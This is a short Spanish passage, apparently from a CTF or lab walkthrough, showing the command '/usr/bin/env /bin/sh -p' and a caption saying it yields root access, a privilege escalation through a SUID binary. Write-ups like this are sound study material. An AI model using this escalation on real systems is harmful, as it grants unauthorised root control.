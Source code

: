 

En la consola introduzco el comando:
```
/usr/bin/env /bin/sh -p     # especificando la ruta absoluta
```
<p align="center">
    <img src="../img/Pasted_image_20241028215714.png" width="500">
</p>
>ℹ
>		*Obtenemos acceso al usuario root*




